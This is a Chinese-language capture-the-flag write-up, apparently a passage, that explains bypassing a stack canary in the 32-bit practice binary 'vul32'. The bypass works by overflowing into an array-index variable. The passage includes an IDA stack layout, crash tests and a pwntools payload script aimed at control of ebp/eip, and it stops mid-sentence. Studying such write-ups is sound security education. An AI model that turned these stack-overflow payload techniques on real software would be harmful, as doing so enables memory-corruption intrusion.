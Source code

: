 v5是4个字节canary，然后用v4++做为数组的下标，利用read函数循环给栈上的数组v3赋值，当收到换行符的时候停止赋值，很明显存在栈溢出，那么如何绕过canary保护呢？我们可以观察一下栈的结构，在ida中双击局部变量即可进入如下视图：

```c
-00000044 buf             db ?
-00000043 v3              db 51 dup(?)
-00000010 v4              dd ?
-0000000C v5              dd ?
-00000008                 db ? ; undefined
-00000007                 db ? ; undefined
-00000006                 db ? ; undefined
-00000005                 db ? ; undefined
-00000004                 db ? ; undefined
-00000003                 db ? ; undefined
-00000002                 db ? ; undefined
-00000001                 db ? ; undefined
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```

v5即canary，能保护其地址往上的内存，这里的视图是往下的。所以当v3发生溢出的时候，v4这个变量是可以被覆盖掉的，而v4这个变量本身是要赋值的数组的下标，所以可以直接修改v4的值，使其接下来要写入的内存`v3[v4]`正好跳过canary继续往下写，则这道题到此就变成一道没有canary保护的栈溢出啦！是不是这样呢？我们做一个实验：

```bash
➜  python -c "print '1'*1000" | ./vul32
Plz input something:
1111111111111111111111111111111111111111111111111111
➜  python -c "print 'A'*1000" | ./vul32
Plz input something:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
[1]    2536 done                              python -c "print 'A'*1000" | 
       2537 segmentation fault (core dumped)  ./vul32
```

给程序1000个字符A，报错退出，给1000个字符1，居然没事，为什么？因为字符1的ascii为0x31，即49，所以当覆盖到v4时，继续从`v3[49]`处继续覆盖，然后继续用49覆盖v4，所以程序一直可以运行不会崩掉。那要把v4写成什么值呢？我们可以利用上图ida分析的结果直接计算，也可以利用gdb进行调试然后直接看出应该赋值给多少。v3的51个字节，然后是v4的4个字节，然后是v5的4个字节，然后闲置的8个字节，之后便可覆盖ebp，总共是51+4+4+8=67，为字母C。

### 调试问题

这里我们用gdb调试一下看看是否能控制ebp和eip，这里发现一个pwntool的神坑，琢磨了一个多小时为啥断点断不下，才发现我如果这么写，断点就断不下

```python
from pwn import *

io = process("./vul32")
gdb.attach(io,"b * 0x08048641")

payload = 'a'*51+'C'+p32(0xb19b00b5)+p32(0xdeadbeef)
io.recv()
io.sendline(payload)
io.interactive()
```

但是如果我这么写，断点就能断下
